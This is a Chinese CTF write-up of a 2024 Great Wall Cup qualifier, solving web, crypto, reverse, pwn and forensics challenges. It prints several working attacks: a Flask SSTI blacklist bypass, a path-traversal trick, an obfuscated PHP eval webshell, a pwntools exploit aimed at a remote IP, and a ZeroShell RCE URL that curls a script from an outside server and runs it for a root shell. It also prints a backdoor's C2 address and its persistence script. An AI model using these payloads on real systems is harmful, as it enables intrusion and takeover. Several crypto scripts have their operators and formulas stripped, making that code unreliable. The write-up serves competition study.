# 第二届“长城杯”铁人三项赛 (防护赛)初赛WriteUP-先知社区

> **来源**: https://xz.aliyun.com/news/16226  
> **文章ID**: 16226

---

# Web

## 0x00 Safe\_Proxy

```
from flask import Flask, request, render_template_string
import socket
import threading
import html

app = Flask(__name__)

@app.route('/', methods=["GET"])
def source():
    with open(__file__, 'r', encoding='utf-8') as f:
        return '<pre>'+html.escape(f.read())+'</pre>'

@app.route('/', methods=["POST"])
def template():
    template_code = request.form.get("code")
    # 安全过滤
    blacklist = ['__', 'import', 'os', 'sys', 'eval', 'subprocess', 'popen', 'system', '\r', '\n']
    for black in blacklist:
        if black in template_code:
            return "Forbidden content detected!"
    result = render_template_string(template_code)
    print(result)
    return 'ok' if result is not None else 'error'

class HTTPProxyHandler:
    def __init__(self, target_host, target_port):
        self.target_host = target_host
        self.target_port = target_port

    def handle_request(self, client_socket):
        try:
            request_data = b""
            while True:
                chunk = client_socket.recv(4096)
                request_data += chunk
                if len(chunk) < 4096:
                    break

            if not request_data:
                client_socket.close()
                return

            with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as proxy_socket:
                proxy_socket.connect((self.target_host, self.target_port))
                proxy_socket.sendall(request_data)

                response_data = b""
                while True:
                    chunk = proxy_socket.recv(4096)
                    if not chunk:
                        break
                    response_data += chunk

            header_end = response_data.rfind(b"\r\n\r\n")
            if header_end != -1:
                body = response_data[header_end + 4:]
            else:
                body = response_data

            response_body = body
            response = b"HTTP/1.1 200 OK\r\n" \
                       b"Content-Length: " + str(len(response_body)).encode() + b"\r\n" \
                       b"Content-Type: text/html; charset=utf-8\r\n" \
                       b"\r\n" + response_body

            client_socket.sendall(response)
        except Exception as e:
            print(f"Proxy Error: {e}")
        finally:
            client_socket.close()

def start_proxy_server(host, port, target_host, target_port):
    proxy_handler = HTTPProxyHandler(target_host, target_port)
    server_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server_socket.bind((host, port))
    server_socket.listen(100)
    print(f"Proxy server is running on {host}:{port} and forwarding to {target_host}:{target_port}...")

    try:
        while True:
            client_socket, addr = server_socket.accept()
            print(f"Connection from {addr}")
            thread = threading.Thread(target=proxy_handler.handle_request, args=(client_socket,))
            thread.daemon = True
            thread.start()
    except KeyboardInterrupt:
        print("Shutting down proxy server...")
    finally:
        server_socket.close()

def run_flask_app():
    app.run(debug=False, host='127.0.0.1', port=5000)

if __name__ == "__main__":
    proxy_host = "0.0.0.0"
    proxy_port = 5001
    target_host = "127.0.0.1"
    target_port = 5000

    # 安全反代，防止针对响应头的攻击
    proxy_thread = threading.Thread(target=start_proxy_server, args=(proxy_host, proxy_port, target_host, target_port))
    proxy_thread.daemon = True
    proxy_thread.start()

    print("Starting Flask app...")
    run_flask_app()

```

考了ssti

在/路由会有两种处理

使用get访问会读取当前的python脚本的内容 并返回源码

使用post方法会获取code的内容 黑名单进行过滤 然后渲染模板

绕过过滤

blacklist = ['\_\_', 'import', 'os', 'sys', 'eval', 'subprocess', 'popen', 'system', '\r', '\n']

当前是无回显的ssti

我们要进行无回显的绕过 构造

我们可以使用fenjing来自动构造payload

我们有黑名单 我们可以本地起一个ssti

```
from flask import Flask, request, render_template_string
import socket
import threading
import html

app = Flask(__name__)

@app.route('/', methods=["GET"])
def source():
    with open(__file__, 'r', encoding='utf-8') as f:
        return '<pre>'+html.escape(f.read())+'</pre>'

@app.route('/', methods=["POST"])
def template():
    template_code = request.form.get("code")
    # 安全过滤
    blacklist = ['__', 'import', 'os', 'sys', 'eval', 'subprocess', 'popen', 'system', '\r', '\n']
    for black in blacklist:
        if black in template_code:
            return "Forbidden content detected!"
    try:
        result = render_template_string(template_code)
        return result  # 直接返回渲染后的模板内容
    except Exception as e:
        return f"Error: {str(e)}"  # 返回错误信息

class HTTPProxyHandler:
    def __init__(self, target_host, target_port):
        self.target_host = target_host
        self.target_port = target_port

    def handle_request(self, client_socket):
        try:
            request_data = b""
            while True:
                chunk = client_socket.recv(4096)
                request_data += chunk
                if len(chunk) < 4096:
                    break

            if not request_data:
                client_socket.close()
                return

            with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as proxy_socket:
                proxy_socket.connect((self.target_host, self.target_port))
                proxy_socket.sendall(request_data)

                response_data = b""
                while True:
                    chunk = proxy_socket.recv(4096)
                    if not chunk:
                        break
                    response_data += chunk

            header_end = response_data.rfind(b"\r\n\r\n")
            if header_end != -1:
                body = response_data[header_end + 4:]
            else:
                body = response_data

            response_body = body
            response = b"HTTP/1.1 200 OK\r\n" \
            b"Content-Length: " + str(len(response_body)).encode() + b"\r\n" \
            b"Content-Type: text/html; charset=utf-8\r\n" \
            b"\r\n" + response_body

            client_socket.sendall(response)
        except Exception as e:
            print(f"Proxy Error: {e}")
        finally:
            client_socket.close()

def start_proxy_server(host, port, target_host, target_port):
    proxy_handler = HTTPProxyHandler(target_host, target_port)
    server_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server_socket.bind((host, port))
    server_socket.listen(100)
    print(f"Proxy server is running on {host}:{port} and forwarding to {target_host}:{target_port}...")

    try:
        while True:
            client_socket, addr = server_socket.accept()
            print(f"Connection from {addr}")
            thread = threading.Thread(target=proxy_handler.handle_request, args=(client_socket,))
            thread.daemon = True
            thread.start()
    except KeyboardInterrupt:
        print("Shutting down proxy server...")
    finally:
        server_socket.close()

def run_flask_app():
    app.run(debug=False, host='127.0.0.1', port=5000)

if __name__ == "__main__":
    proxy_host = "0.0.0.0"
    proxy_port = 5001
    target_host = "127.0.0.1"
    target_port = 5000

    # 安全反代，防止针对响应头的攻击
    proxy_thread = threading.Thread(target=start_proxy_server, args=(proxy_host, proxy_port, target_host, target_port))
    proxy_thread.daemon = True
    proxy_thread.start()

    print("Starting Flask app...")
    run_flask_app()

```

我们改成了有回显的ssti

本地运行



使用fenjing梭哈

提交表单完成，返回值为200，输入为{'code': ""}，表单为{'action': '/', 'method': 'POST', 'inputs': {'code'}}

得到payload

url编码 运行





get访问路由/

就会访问app.py

我们就可以访问到flag

flag{0c518973-d0c3-49c1-bb4f-44f3074f484c}

## 0x01 hello\_web





发现 ../hackme.php

文件包含 ../hackme.php

但访问不到

有过滤 尝试绕过过滤

可以双写然后绕过过滤[....//hackme.php](http://eci-2zef3sej7rworr0h35d8.cloudeci1.ichunqiu.com/index.php?file=....//hackme.php)

<http://eci-2zef3sej7rworr0h35d8.cloudeci1.ichunqiu.com/index.php?file=....//hackme.php>

查看上一级目录




查看tips

```
<?php
  highlight_file(__FILE__);
$lJbGIY="eQOLlCmTYhVJUnRAobPSvjrFzWZycHXfdaukqGgwNptIBKiDsxME";$OlWYMv="zqBZkOuwUaTKFXRfLgmvchbipYdNyAGsIWVEQnxjDPoHStCMJrel";$lapUCm=urldecode("%6E1%7A%62%2F%6D%615%5C%76%740%6928%2D%70%78%75%71%79%2A6%6C%72%6B%64%679%5F%65%68%63%73%77%6F4%2B%6637%6A");
$YwzIst=$lapUCm{3}.$lapUCm{6}.$lapUCm{33}.$lapUCm{30};$OxirhK=$lapUCm{33}.$lapUCm{10}.$lapUCm{24}.$lapUCm{10}.$lapUCm{24};$YpAUWC=$OxirhK{0}.$lapUCm{18}.$lapUCm{3}.$OxirhK{0}.$OxirhK{1}.$lapUCm{24};$rVkKjU=$lapUCm{7}.$lapUCm{13};$YwzIst.=$lapUCm{22}.$lapUCm{36}.$lapUCm{29}.$lapUCm{26}.$lapUCm{30}.$lapUCm{32}.$lapUCm{35}.$lapUCm{26}.$lapUCm{30};eval($YwzIst("JHVXY2RhQT0iZVFPTGxDbVRZaFZKVW5SQW9iUFN2anJGeldaeWNIWGZkYXVrcUdnd05wdElCS2lEc3hNRXpxQlprT3V3VWFUS0ZYUmZMZ212Y2hiaXBZZE55QUdzSVdWRVFueGpEUG9IU3RDTUpyZWxtTTlqV0FmeHFuVDJVWWpMS2k5cXcxREZZTkloZ1lSc0RoVVZCd0VYR3ZFN0hNOCtPeD09IjtldmFsKCc/PicuJFl3eklzdCgkT3hpcmhLKCRZcEFVV0MoJHVXY2RhQSwkclZrS2pVKjIpLCRZcEFVV0MoJHVXY2RhQSwkclZrS2pVLCRyVmtLalUpLCRZcEFVV0MoJHVXY2RhQSwwLCRyVmtLalUpKSkpOw=="));
?>

```


逐层输出

```
$uWcdaA="eQOLlCmTYhVJUnRAobPSvjrFzWZycHXfdaukqGgwNptIBKiDsxMEzqBZkOuwUaTKFXRfLgmvchbipYdNyAGsIWVEQnxjDPoHStCMJrelmM9jWAfxqnT2UYjLKi9qw1DFYNIhgYRsDhUVBwEXGvE7HM8+Ox==";eval('?>'.$YwzIst($OxirhK($YpAUWC($uWcdaA,$rVkKjU*2),$YpAUWC($uWcdaA,$rVkKjU,$rVkKjU),$YpAUWC($uWcdaA,0,$rVkKjU))));

```

获取密码

```
<?php
highlight_file(__FILE__);
$lJbGIY="eQOLlCmTYhVJUnRAobPSvjrFzWZycHXfdaukqGgwNptIBKiDsxME";
$OlWYMv="zqBZkOuwUaTKFXRfLgmvchbipYdNyAGsIWVEQnxjDPoHStCMJrel";
$lapUCm=urldecode("%6E1%7A%62%2F%6D%615%5C%76%740%6928%2D%70%78%75%71%79%2A6%6C%72%6B%64%679%5F%65%68%63%73%77%6F4%2B%6637%6A");
$YwzIst=$lapUCm{3}.$lapUCm{6}.$lapUCm{33}.$lapUCm{30};$OxirhK=$lapUCm{33}.$lapUCm{10}.$lapUCm{24}.$lapUCm{10}.$lapUCm{24};
$YpAUWC=$OxirhK{0}.$lapUCm{18}.$lapUCm{3}.$OxirhK{0}.$OxirhK{1}.$lapUCm{24};$rVkKjU=$lapUCm{7}.$lapUCm{13};
$YwzIst.=$lapUCm{22}.$lapUCm{36}.$lapUCm{29}.$lapUCm{26}.$lapUCm{30}.$lapUCm{32}.$lapUCm{35}.$lapUCm{26}.$lapUCm{30};
eval($YwzIst("JHVXY2RhQT0iZVFPTGxDbVRZaFZKVW5SQW9iUFN2anJGeldaeWNIWGZkYXVrcUdnd05wdElCS2lEc3hNRXpxQlprT3V3VWFUS0ZYUmZMZ212Y2hiaXBZZE55QUdzSVdWRVFueGpEUG9IU3RDTUpyZWxtTTlqV0FmeHFuVDJVWWpMS2k5cXcxREZZTkloZ1lSc0RoVVZCd0VYR3ZFN0hNOCtPeD09IjtldmFsKCc/PicuJFl3eklzdCgkT3hpcmhLKCRZcEFVV0MoJHVXY2RhQSwkclZrS2pVKjIpLCRZcEFVV0MoJHVXY2RhQSwkclZrS2pVLCRyVmtLalUpLCRZcEFVV0MoJHVXY2RhQSwwLCRyVmtLalUpKSkpOw=="));
$uWcdaA="eQOLlCmTYhVJUnRAobPSvjrFzWZycHXfdaukqGgwNptIBKiDsxMEzqBZkOuwUaTKFXRfLgmvchbipYdNyAGsIWVEQnxjDPoHStCMJrelmM9jWAfxqnT2UYjLKi9qw1DFYNIhgYRsDhUVBwEXGvE7HM8+Ox==";
echo $YwzIst($OxirhK($YpAUWC($uWcdaA,$rVkKjU*2),$YpAUWC($uWcdaA,$rVkKjU,$rVkKjU),$YpAUWC($uWcdaA,0,$rVkKjU)));
?>

```



非法字符传参 用[绕过

cmd[66.99

蚁剑连接

/var/run/log/13c448004444d2791e0661fa2f216b20/flag

找到flag



flag{7cc8ccc6-fcaf-4446-9f38-e1de21c0da97}

# Crypto

## 0x00 rasnd

题目：

```
0from Crypto.Util.number import getPrime, bytes_to_long  
from random import randint  
import os  

FLAG = os.getenv("FLAG").encode()  
flag1 = FLAG[:15]  
flag2 = FLAG[15:]  

def crypto1():  
    p = getPrime(1024)  
    q = getPrime(1024)  
    n = p  q  
    e = 0x10001  
    x1=randint(0,211)  
    y1=randint(0,2114)  
    x2=randint(0,211)  
    y2=randint(0,2514)  
    hint1=x1p+y1q-0x114  
    hint2=x2p+y2q-0x514                      
    c = pow(bytes_to_long(flag1), e, n)  
    print(n)  
    print(c)  
    print(hint1)  
    print(hint2)  

def crypto2():  
    p = getPrime(1024)  
    q = getPrime(1024)  
    n = p  q  
    e = 0x10001  
    hint = pow(514p - 114q, n - p - q, n)  
    c = pow(bytes_to_long(flag2),e,n)  
    print(n)  
    print(c)  
    print(hint)  
print("==================================================================")  
crypto1()  
print("==================================================================")  
crypto2()  
print("==================================================================")

```

flag分为两部分，第一部分用4个随机数与p,q组成了两个等式，我们要利用这两个等式求出p,q来解第一部分的flag，我们知道hint1 和 hint2 是与 p 和 q 相关的线性组合，hint1=x1\_p+y1\_q-0x114 hint2=x2\_p+y2\_q-0x514，这两个等式可以表示为hint1=x1⋅p+y1⋅q+C1,hint2=x2⋅p+y2⋅q+C2,其中C1 和 C2 是常数,根据数论的性质,如果 a 和 b 是两个整数,且 d=gcd⁡(a,b)那么d 也是 a 和 b 的任何线性组合的因子,这意味着：如果我们能够构造出两个： k 和 w 的线性组合，使得包含 p 或 q 的因子，这里需要爆破，那么gcd(k−w,n) 将会返回一个因子,这里我假设返回的是n的一个因子，后面发现还真的是。nc获取数据：第一部分解密脚本：

```
from tqdm import trange  
from Crypto.Util.number import   
from gmpy2 import   

n= 18088011671538976982165525440386623289385114080576725768019061415671826851943445221226512589098669346404026374951858999387217508024789211498259452109214556714912857033124082966625646395283686312524015320926512455915546499413478756620357509821566076816579297882375786426816605611526775168996549051600931509019387185312619492222782269305011713051789911005317468583129891804202627825567966747213383425120088700132546120060985737910313952154697082271457880737295887007466461730433266268402482331178579951103721119735101467400195497116119485338923706700491486973150788317315356357101151829456342562867587099598945192815263  
c = 9672261292049179510539936121485683732050798623479355794472893221642511300800280335280454378943002919160802677245360275424484528013159261954493742998677309529673790654057091714075262162318494670714730092015059383281995469507344322339633183388332778604852910046402244856048524492616127009392735657588616348180165737939024483272404465691736500951998475167207424220354207033328796782335018476327594119671551311477701303163670617853496320673657883624554669421593020604921475875559320715926280873207029420395750055202639374682706327888026109861279966152066895569848791223114397562133543690771564722708438398302054378748382  
hint1 = 1876377888814200677442129576675996706468631990804911325305925446297494237080972549459539078790790063918048118238573069981792229335343412599922437368079227142591323977848118125493649176850872826534420257631894221784255713060216558942913054972531098351649650098921170981304230776828706602102714925788415307347441588418154129396919337838110092813  
hint2 = 4577144295703606484123914611409444377581187954194894627593999949721725631702229741058762926738731162033453968685003890648825426935166041938739780782092132921278035040699628683026895248136976510810097939718444896419804529003179001092641108224659396765795452144064815761341321104087246151217134879547607066758663682702357666390897071886395518123041544718060193617760547848107588540156504758935787543246553706035451249171216368368607224982935938619089301863944851318  

for i in trange(211):  
    for w in range(211):  
        k = (hint1 + 0x114)  i  
        w = (hint2 + 0x514)  w  
        l = gcd(k - w, n)  
        if l != 1 and isPrime(l):  
            p = l  
            q = n // p  
            d = inverse(65537, (p - 1)  (q - 1))  
            m = pow(c, d, n)  
            print(long_to_bytes(m).decode())

```

### RSA 加密中的参数推导与求解

在 RSA 加密中，主要有以下几个参数：

* **模数 (n)**：由两个大素数 p 和 q 的乘积构成，即 
* **公钥指数 (e)**：通常是一个小的常数（如 65537），用于加密过程
* **私钥 (d)**：用于解密过程，通常通过  计算得出

### 线性组合的构造

我们可以构造一个线性组合，比如：

这个组合可以看作是 p 和 q 的某种关系，我们可以将其视为一个新的变量 k。

## 计算 hint

我们要计算的 hint 是：


这表示将  提升到  的幂，然后对 n 取模。

### 推导过程


根据 RSA 的性质，我们知道：


因此  可以表示为：


### 计算 hint

将 k 代入 hint 的计算中：


### 解释 hint

这个 hint 的计算实际上是将  的结果提升到  的幂，并对 n 取模。这个操作在 RSA 中是合法的，因为我们在模 n 的范围内进行运算。

### 从 hint 的定义出发


这意味着：


### 求逆

如果我们想要得到 ，我们可以通过求逆来实现：


这意味着：


所以可以利用这个关系组成个等式，来求出两个未知数。

## 代码实现

下面是使用 Python 和 Z3 Solver 来求解 p 和 q 的代码：

```
from Crypto.Util.number import inverse, long_to_bytes
from z3 import Ints, Solver, sat

n = 19270469180149377263192680520819033524539225081011510973771491132573055666673351141996751197354363664966014556774615485934908980461758850357009251309139628221564453417674382327302421186462670811373716926240975834774481469724971880623608600218091329795743254370563097739791612527201215958971410743353451459144002124470888119861714861743318989005059458006392282025661284787801335449493817479339656692022153914190452646349608988234249089757979295313780035505101668837926927936182966948338603241612244642741597658758777488950156533305392860253251286264242993704349899118371704510160880572747042643531951959235458650535201
c = 17922269792919020054615215743477596812624139562663477259751167464530271650542317088700713269485811397529339279516458231908605132062757375048865481634994627781161964719169079516071499023010331813470999183912373770424498490096501950489912324313610809253291227934210924561262506655227831816557706705271515382040988621473520356987673072721352470307538611049235274679949259625092930942227801261483611129856790200274136422472806003001953980483266780144214483509977936166152968674312795223620207142790023737286941892114758105363980960058996508562524135436561252121040044921523038783948500002980889791088501992627049267597054
hint = 19236929998880181808018278535269127648428289004903763893783918597013504816536557917002191668963373294797217170818500275763975145920076792641715979

```

## *0x01 fffffhash*

*\_\_**题目：*

```
import os  
from Crypto.Util.number import   
def giaogiao(hex_string):  
    base_num = 0x6c62272e07bb014262b821756295c58d  
    x = 0x0000000001000000000000000000013b  
    MOD = 2*128  
    for i in hex_string:  
       base_num = (base_num  x) & (MOD - 1)   
       base_num ^= i  
    return base_num  


giao=201431453607244229943761366749810895688  

print("1geiwoligiaogiao")  
hex_string = int(input(),16)  
s = long_to_bytes(hex_string)  

if giaogiao(s) == giao:  
    print(os.getenv('FLAG'))  
else:  
    print("error")
```

审计可得：giaogiao 函数是一个自定义的哈希函数，接受一个十六进制字符串作为输入，使用乘法和异或操作来处理输入的字节，并返回一个计算结果，程序提示输入一个十六进制字符串，将其转换为字节，然后调用 giaogiao 函数进行计算，最后与预定义的常量 giao 进行比较，如果匹配，则输出环境变量 FLAG 的值，否则输出错误信息，这题想要采用爆破几乎是不可能的，所以还是得采用技巧,我们可以利用线性代数中的矩阵运算和数论中的模运算来进行解密，在解密代码中构建了一个矩阵 M，并通过增广和应用 BKZ（Block Korkin-Zolotarev）算法来处理这个矩阵，BKZ 算法是一种用于解决整数线性规划问题的算法，通常用于寻找短向量或近似最优解，然后通过对矩阵的行进行操作，找到一个有效的解，这个解是通过线性组合得到的，总的来说就是通过构建和操作矩阵、应用算法和利用位运算的特性，能够有效地进行解密。解密脚本：

```
key = 0x6c62272e07bb014262b821756295c58d  
p_value = 0x0000000001000000000000000000013b 
limit = 2 ^ 128  # 模数

wpk_value = 201431453607244229943761366749810895688  # 目标值

n = 20  # 矩阵的维度

创建矩阵 M，包含 p 的幂和目标值的计算
M = Matrix.column([p_value^(n - i - 1) for i in range(n)] + [-(wpk_value - key  p_value ^ n), limit])
M = M.augment(identity_matrix(n + 1).stack(vector([0]  (n + 1))))  # 增广矩阵
Q = Matrix.diagonal([2^256] + [2^8]  n + [2^16])  # 对角矩阵
M = Q  # 矩阵乘法
M = M.BKZ()  # 应用 BKZ 算法
M /= Q  # 归一化


遍历矩阵 M，寻找满足条件的行
for row in M:
    if row[0] == 0 and abs(row[-1]) == 1:
        row = row[-1]  
        valid_solution = row[1:-1] 
        break

answers = []  # 存储答案
y_value = int(key  p_value) 
t_value = (key  p_value ^ n + valid_solution[0]  p_value ^ (n - 1)) % limit  # 
for i in range(n):
    for x in range(256):
        y_temp = (int(y_value) ^^ int(x))  p_value ^ (n - i - 1) % limit  # 计算 y_temp
        if y_temp == t_value: 
            answers.append(x)  
            if i < n - 1:
                t_value = (t_value + valid_solution[i + 1]  p_value ^ (n - i - 2)) % limit  
                y_value = ((int(y_value) ^^ int(x)) * p_value) % limit  # 更新 y
            break

print(bytes(answers).hex())
```

结果得到：1df2006d2e3362153d001f53102a7c2a0a591516，输入这个就可以得到flag

# RE

## 0x00 ezCsky

ida正常无法打开，需要这样

（这样也不完全可以，连着的几个都试试，换换版本，这里用的8.3和9.0来回对照的看)

找到一个key，和密文，



发现一个rc4c\_crpyt猜测是rc4加密，找数据去猜



密文

key

套个板子，发现是乱码，但最后一位是}，猜测是倒序按位异或，试了一下，果然

exp

```
class RC4:
    def __init__(self, key):
        self.S = list(range(256))  # 初始化状态向量
        self.key = [ord(char) for char in key]  # 将密钥转换为整数列表
        self.ksa()  # 执行密钥调度算法

    def ksa(self):
        """Key-Scheduling Algorithm (KSA)"""
        j = 0
        for i in range(256):
            j = (j + self.S[i] + self.key[i % len(self.key)]) % 256
            self.swap(self.S, i, j)

    def rpga(self, length):
        """Pseudo-Random Generation Algorithm (PRGA)"""
        i = j = 0
        keystream = []
        for _ in range(length):
            i = (i + 1) % 256
            j = (j + self.S[i]) % 256
            self.swap(self.S, i, j)
            keystream.append(self.S[(self.S[i] + self.S[j]) % 256])
        return keystream

    def swap(self, s, i, j):
        """交换 S[i] 和 S[j]"""
        s[i], s[j] = s[j], s[i]

    def encrypt_decrypt(self, data):
        """加密或解密数据"""
        if isinstance(data, list):  # 如果输入是整数列表，先转换为字节
            data = bytes(data)
        keystream = self.rpga(len(data))
        result = bytearray()
        for i in range(len(data)):
            result.append(data[i] ^ keystream[i])  # 按位异或
        return result


# 使用示例
encoded_key = [
    0x96, 0x8F, 0xB8, 0x08, 0x5D, 0xA7, 0x68, 0x44, 0xF2, 0x64,
    0x92, 0x64, 0x42, 0x7A, 0x78, 0xE6, 0xEA, 0xC2, 0x78, 0xB8,
    0x63, 0x9E, 0x5B, 0x3D, 0xD9, 0x28, 0x3F, 0xC8, 0x73, 0x06,
    0xEE, 0x6B, 0x8D, 0x0C, 0x4B, 0xA3, 0x23, 0xAE, 0xCA, 0x40,
    0xED, 0xD1
]
key = "testkey"
rc4 = RC4(key)

# 解密数据
decrypted_data = rc4.encrypt_decrypt(encoded_key)

flag = bytearray(decrypted_data)
for i in range(len(flag) - 1, 0, -1):
    flag[i - 1] ^= flag[i]

# 输出结果
print("Decrypted Flag (as bytes):", flag)
try:
    print("Decrypted Flag (as string):", flag.decode('utf-8'))
except UnicodeDecodeError:
    print("Decrypted Flag is not valid UTF-8.")

```



## 0x01 dump



可以看的出来是命令行传参

尝试动调



这里才是最后加密的地方，不过是逐字符加密，并且会输出密文，直接爆破

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define MAX_OUTPUT_LEN 1024
#define ENC_LEN 22
#define FLAG_LEN 22

const char *enc[ENC_LEN] = {
    "23", "29", "1e", "24", "38", "0e", "15", "20", "37", "0e", 
    "05", "20", "00", "0e", "37", "12", "1d", "0f", "24", "01", "01", "39"
    };

const char printable[] = "0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz!\"#$%&'()*+,-./:;<=>?@[\\]^_`{|}~ ";

int main() {
    char flag[FLAG_LEN + 6] = "flag{";
    int index = 5;
    char output[MAX_OUTPUT_LEN];
    FILE *fp;

    for (int i = 0; i < 17; i++) {
        for (int j = 0; printable[j] != '\0'; j++) {
            snprintf(flag + strlen(flag), 2, "%c", printable[j]);
            fp = popen(flag, "r");

            if (fp == NULL) {
                perror("popen failed");
                return 1;
            }

            fgets(output, MAX_OUTPUT_LEN, fp);
            fclose(fp);

            int len = strlen(output);
            if (len >= (index + 1) * 2) {
                char hex_pair[3] = {output[index * 2], output[index * 2 + 1], '\0'};
                if (strcmp(hex_pair, enc[index]) == 0) {
                    printf("%c", printable[j]);
                    flag[strlen(flag) - 1] = printable[j];
                    index++;
                    break;
                }
            }
        }
    }

    printf("\nFinal flag: %s\n", flag);
    return 0;
}

```

# PWN

## **0x00 anote**

先check⼀下：



没有开启PIE。本题主要有add,edit,show函数没有free函数。

分析对于add函数，会创建⼀个0x20⼤⼩的chunk。



show函数就是输出chunk的内容



这⾥有个gift，会输出heap的地址。后续可以利⽤对于edit函数：漏洞点这⾥有个gift，会输出heap的地址。后续可以利⽤对于edit函数：漏洞点



这⾥有个函数调⽤的漏洞 当我们构造如下chunk时：



由于(void ( cdecl )(\_DWORD))(&ptr\_chunk + idx)，所以会调⽤backdoor函数。然后执⾏我们的shell代码，进⽽命令执⾏EXP:

```
from pwn import *
context(log_level='debug',arch='i386', os='linux')
pwnfile = "./note"
io = remote("39.106.48.123",34583)
#io = process(pwnfile)
elf = ELF(pwnfile)
def add():
 io.sendlineafter(b"Choice>>",b"1")
def show(idx):
 io.sendlineafter(b"Choice>>",b"2")
 io.sendlineafter(b"index: ",str(idx))
def edit(idx,data):
 io.sendlineafter(b"Choice>>",b"3")
 io.sendlineafter(b"index: ",str(idx))
 io.sendlineafter(b"len: ",str(len(data)))
 io.recvuntil(b"content: ")
 io.sendline(data)
backdoor_addr = 0x080489CE
add()
add()
show(0)
io.recvuntil(b"gift: 0x")
gift_addr = int(io.recv(7),16)
print("gift----------------> :",hex(gift_addr))
edit(0,p32(backdoor_addr)+p32(0)*4+p32(0x21)+p32(gift_addr+8))
edit(1,b"aaaa")
io.interactive()

```

# **威胁检测与网络流量分析**

## **0x00 zeroshell\_1**

先用工具梭哈一下，找一下字符串



找到了一个base64加密的flag字符串

ZmxhZ3s2QzJFMzhEQS1EOEU0LThEODQtNEE0Ri1FMkFCRDA3QTFGM0F9

解码得到flag



## **0x01 zeroshell\_2**

wireshark语法过滤找到对应的http流分析payload

frame contains "ZmxhZ3s2QzJFMzhEQS1EOE"过滤包含flag的包



追踪http流



拿到payload

```
GET /cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type='%0A/etc/sudo%20tar%20-cf%20/dev/null%20/dev/null%20--checkpoint=1%20--checkpoint-action=exec='ps%20-ef'%0A' HTTP/1.1
```

明显看出是一个rce的payload

```
GET /cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type='%0A/etc/sudo%20tar%20-cf%20/dev/null%20/dev/null%20--checkpoint=1%20--checkpoint-action=exec='ps%20-ef'%0A' HTTP/1.1
```

先弹个shell到服务器方便后续操作，然后找到flag文件

```
http://61.139.2.100/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type=%27%0A/etc/sudo%20tar%20-cf%20/dev/null%20/dev/null%20--checkpoint=1%20--checkpoint-action=exec=%27curl%20http://vps:6677/a.sh%20-o%20/tmp/a.sh%27%0A%27
http://61.139.2.100/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type=%27%0A/etc/sudo%20tar%20-cf%20/dev/null%20/dev/null%20--checkpoint=1%20--checkpoint-action=exec=%27/tmp/a.sh%27%0A%27
bash-4.3# find / -name flag* 2>/dev/null
/DB/_DB.001/flag
/sys/devices/pci0000:00/0000:00:11.0/0000:02:01.0/net/ETH00/flags
/sys/devices/platform/serial8250/tty/ttyS2/flags
/sys/devices/platform/serial8250/tty/ttyS3/flags
/sys/devices/platform/serial8250/tty/ttyS1/flags
/sys/devices/pnp0/00:05/tty/ttyS0/flags
/sys/devices/virtual/net/bond3/flags
/sys/devices/virtual/net/ip6tnl0/flags
/sys/devices/virtual/net/bond1/flags
/sys/devices/virtual/net/sit0/flags
/sys/devices/virtual/net/dummy1/flags
/sys/devices/virtual/net/bond8/flags
/sys/devices/virtual/net/DEFAULTBR/flags
/sys/devices/virtual/net/bond6/flags
/sys/devices/virtual/net/VPN99/flags
/sys/devices/virtual/net/bond4/flags
/sys/devices/virtual/net/bond2/flags
/sys/devices/virtual/net/bond0/flags
/sys/devices/virtual/net/bond9/flags
/sys/devices/virtual/net/dummy0/flags
/sys/devices/virtual/net/lo/flags
/sys/devices/virtual/net/bond7/flags
/sys/devices/virtual/net/bond5/flags
/Database/flag
bash-4.3# cat /Database/flag
c6045425-6e6e-41d0-be09-95682a4f65c4
```

## **0x02 zeroshell\_3**

注意到tmp目录下有个隐藏文件.nginx很可疑,因此对其分析,导出到本地然后ida反编译

查看了字符串看到一个ip和一个字符串



找到对应位置



函数开头存在/bin/bash可以大胆猜测就是外联的恶意木马

外联ip为202.115.89.103

## **0x03 zeroshell\_4**

同上题分析 ，恶意外联文件为.ngxin文件

## **0x04 zeroshell\_5**

同第三题分析，ida中IP下面有一串可疑字符串

输入ida获取到的字符串发现正确就是密钥

11223344qweasdzxc

## **0x05 zeroshell\_6**

在shell中不断查询文件，寻找包含".nginx"字符串的文件，最终在/var主目录下找到

```
bash-4.3# grep -r '.nginx' /var     
/var/register/system/startup/scripts/nat/File:cp /Database/.nginx /tmp/.nginx
/var/register/system/startup/scripts/nat/File:chmod +x /tmp/.nginx
/var/register/system/startup/scripts/nat/File:/tmp/.nginx
grep: /var/register/system/startup/scripts/wireless/File: No such file or directory
grep: /var/register/system/startup/scripts/preboot/File: No such file or directory
grep: /var/run/acpid.socket: No such device or address
bash-4.3# cat /var/register/system/startup/scripts/nat/File
cp /Database/.nginx /tmp/.nginx
chmod +x /tmp/.nginx
/tmp/.nginxbash-4.3#
```

/var/register/system/startup/scripts/nat/File文件复制到/tmp目录然后给了执行权限并执行，所以就是启动文件

## **0x06** WinFT\_1



看到hosts文件里有

猜测端口为80或443

flag{miscsecure.com:192.168.116.130:443}

## **0x07** WinFT\_2



计划任务中找到了字符串



base64解码



html解码



Nice，flag is {AES\_encryption\_algorithm\_is\_an\_excellent\_encryption\_algorithm}

## **0x08** WinFT\_5

将流量包放到随波逐流里

然后进行分析 然后foremost提取出文件





提取出来了zip

用winrar打开

看文件的备注信息 发现了密码



5pe26Ze057q/5YWz6IGU6Z2e5bi46YeN6KaB



时间线关联非常重要

密码 解压出flag



flag{a1b2c3d4e5f67890abcdef1234567890-2f4d90a1b7c8e2349d3f56e0a9b01b8a-CBC}

## **0x09** sc05\_1

查找ip



2024/11/09\_16:22:42



01df5bc2388e287d4cc8f11ea4d31929

flag{01DF5BC2388E287D4CC8F11EA4D31929}
